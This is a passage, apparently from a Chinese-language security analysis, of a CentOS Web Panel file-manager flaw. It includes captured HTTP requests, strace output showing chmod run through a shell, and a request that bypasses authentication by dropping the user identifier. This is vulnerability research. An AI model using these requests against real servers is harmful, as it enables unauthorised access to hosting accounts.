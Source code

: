 ```
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://127.0.0.1:2083/cwp_30776ec647a8f390/myuser/fileManager_v2.php
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundaryrTrcHpS9ovyhBLtb
Content-Disposition: form-data; name=&#34;fileName&#34;

.bashrc
------WebKitFormBoundaryrTrcHpS9ovyhBLtb
Content-Disposition: form-data; name=&#34;currentPath&#34;

/home/myuser/
------WebKitFormBoundaryrTrcHpS9ovyhBLtb
Content-Disposition: form-data; name=&#34;recursive&#34;


------WebKitFormBoundaryrTrcHpS9ovyhBLtb
Content-Disposition: form-data; name=&#34;t_total&#34;

644
------WebKitFormBoundaryrTrcHpS9ovyhBLtb–
```

  
  
此请求使用 HTTP Cookies（cwpsrv-*）和 URL 参数来标识用户（myuser ）： POST /cwp_30776ec647a8f390/myuser/myuser/index.php?module=filemanager&acc=changePerm  
  
收到请求后，服务器会调用 chmod 系统命令。参数fileName指向的文件必须存在于currentPath中，并且currentPath必须位于/home/目录中（例如，/home/myuser/.bashrc）。 strace 的输出如下：  
  

```
[...]
1384914:21:08.880573 execve(&#34;/bin/sh&#34;, [&#34;sh&#34;, &#34;-c&#34;, &#34;chmod 644 \&#34;/home/myuser/.bashrc\&#34;&#34;], [&#34;PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin&#34;, &#34;TEMP=/tmp&#34;, &#34;TMPDIR=/tmp&#34;, &#34;TMP=/tmp&#34;, &#34;HOSTNAME=&#34;, &#34;USER=myuser&#34;, &#34;HOME=/home/myuser&#34;]) = 0 <0.000222>
1384914:21:08.887956 execve(&#34;/usr/bin/chmod&#34;, [&#34;chmod&#34;, &#34;644&#34;, &#34;/home/myuser/.bashrc&#34;], [&#34;HOSTNAME=&#34;, &#34;TMPDIR=/tmp&#34;, &#34;USER=myuser&#34;, &#34;TEMP=/tmp&#34;, &#34;PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin&#34;, &#34;PWD=/usr/local/cwpsrv/var/services/users&#34;, &#34;SHLVL=1&#34;, &#34;HOME=/home/myuser&#34;, &#34;TMP=/tmp&#34;, &#34;\_=/usr/bin/chmod&#34;]) = 0 <0.000098>
[...]
```

  
  
第一个问题源于身份验证机制未得到正确验证。发送不带任何用户标识符的请求会在服务器上产生同样的行为。例如，即使从 URL 中删除用户标识符，请求仍然会被处理：  
  

```
POST/myuser/index.php?module=filemanager&acc=changePerm HTTP/1.1
Host: 127.0.0.1:2083
Content-Length: 450
Sec-Ch-Ua-Platform: &#34;Linux&#34;
Accept-Language: fr-FR,fr;q=0.9
Accept: application/json, text/plain, */*
Sec-Ch-Ua: &#34;Not.A/Brand&#34;;v=&#34;99&#34;, &#34;Chromium&#34;;v=&#34;136&#34;
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrTrcHpS9ovyhBLtb
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Origin: https://127.0.0.1:2083
```